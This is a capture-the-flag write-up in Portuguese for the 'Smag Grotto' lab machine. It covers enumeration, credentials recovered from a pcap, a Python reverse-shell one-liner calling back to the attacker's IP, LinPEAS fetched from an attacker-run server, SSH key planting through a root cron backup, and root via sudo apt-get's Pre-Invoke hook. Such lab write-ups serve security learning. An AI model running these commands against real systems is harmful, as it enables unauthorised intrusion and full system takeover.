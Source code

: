 # _**Smag Grotto CTF**_
![](grotto.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos um website, vamos visitar  
Apenas um simples website  
Vamos tentar um _brute force_ de diretórios com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Temos um diretório promissor: **e-mail**  
Vamos investigar  
Parece que temos algumas mensagens de e-mail relatando a migração de rede e a falha no _download_ de um arquivo  
É relatado também ser necessário realizar download do arquivo via ```wget```  
Clicando no arquivo, conseguimos download, se trata de um arquivo _.pcap_  
Arquivos _.pcap_ são arquivos padrão utilizados em scanners de rede como Wireshark  
Vamos abrir este arquivo  
Investigando os pacotes HTTP, encontramos um usuário e senha  

![](pcap_wireshark.jpg)

Além disso, este pacote está sendo enviado para: <mark>development.smag.thm/login.php</mark>  
Para podermos acessar este domínio, precisamos alterar nosso arquivo _/etc/hosts_  

![](etc_hosts.jpg)  

Temos duas áreas para realizar login, vamos tentar ambas  
Ambas levam a mesma página e dão login como sucesso  

![](command_page.jpg)  

Vamos começar testando alguns comandos  
Após alguns testes, parece que deve aceitar diversos comandos, mas não existe nenhum resultado visual  
Tentando obter uma shell com o comando abaixo  
> ```bash
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```
![](shell_success.jpg)

Obtemos uma shell!  
Vamos melhorar ela com ```python3 -c 'import pty, os; pty.spawn("/bin/bash")'```  

## _**Ganhando acesso**_
Primeiro, vamos investigar um pouco  
Após um tempo procurando algum arquivo explorável com alguns comandos básicos, foi decidido usar o programa <mark>LinPeas</mark> para essa tarefa  
Primeiro, ligamos nosso servidor HTTP com: ```python3 -m http.server 8080```  
Em seguida, na máquina-alvo, buscamos com: ```curl http://[ip_address]:[port]/linpeas.sh -o /tmp/linpeas.sh```; obs: com ```wget``` estava dando erro  
Damos as permissões necessárias e em seguida, executamos  

![](bck_ssh.jpg)

Este arquivo parece estar sendo executado como _root_, copiando o conteúdo de _/opt/.backups/jake_id_rsa.pub.backup_ para as chaves de **jake**  
Podemos realizar o seguinte:
* em nossa máquina
> ```bash
> ssh-keygen -t rsa -b 4096
> ```
Siga as etapas para criar a chave privada e a chave pública

> ```bash
> python3 -m http.server 8080
> ```

* na máquina-alvo
> ```bash
> wget http://[ip_address]:[port]/pub_key_name.pub -o /tmp/pub_key_name.pub
> cat pub_key_name.pub > /opt/.backups/jake_id_rsa.pub.backup
> ```
Espere 1 minuto e realize login via SSH com: ```ssh -i priv_key_name jake@[ip_address]```  

![](jake_login.jpg)  

## _**Escalando privilégios**_
Vamos começar com alguns comandos básicos como ```sudo -l```  
Parece que temos algo promissor após ver a seguinte linha:  **(ALL : ALL) NOPASSWD: /usr/bin/apt-get**  
Investigando por comandos para obter _root_, cheamos no seguinte:
> ```bash
> sudo apt-get -o APT::Update::Pre-Invoke::="/bin/bash" update
> ```
Esse comando executa /bin/bash como root antes da atualização de pacotes  

![](root.jpg)

Agora, basta ir atrás das flags!
